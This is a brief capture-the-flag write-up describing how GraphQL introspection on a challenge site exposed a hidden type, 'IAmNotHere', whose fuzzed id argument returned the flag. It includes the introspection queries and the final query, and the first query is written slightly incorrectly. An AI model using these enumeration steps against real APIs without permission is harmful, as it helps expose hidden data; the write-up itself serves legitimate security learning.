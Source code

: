 
------
This challenge involved a page that displayed information about rockets currently outside of earth from different countries.

I found that the server was using GraphQL via hardcoded JavaScript that sent data to a GraphQL endpoint.

Hence the challenge name, I started a script called `clairvoyance` to complete introspection on the GraphQL enpoint, and found a Type Object called `IAmNotHere`.

The command to list the different type objects is:

```JSON
query {
	__schema {
		name
	}
}
```

Once we noticed the object i started to list the fields of the object type:

```JSON
query {
	__type(name: \"IAmNotHere\") {
		fields {
			name
			description
		}
	}
}
```

This gave the name and description of all fields for `IAmNotHere`.

After attempting to retrieve these fields, it gave me an error `argument "very_long_id" of type "int" is required, but not provided`, this meant that a `id` parameter is to be passed for the object type `IAmNotHere`.

After fuzzing the parameter the id of `18` return the challenge flag.

This was the final payload:

```JSON
query {
	IAmNotHere(very_long_id: 18) {
		very_long_value
	}
}
```


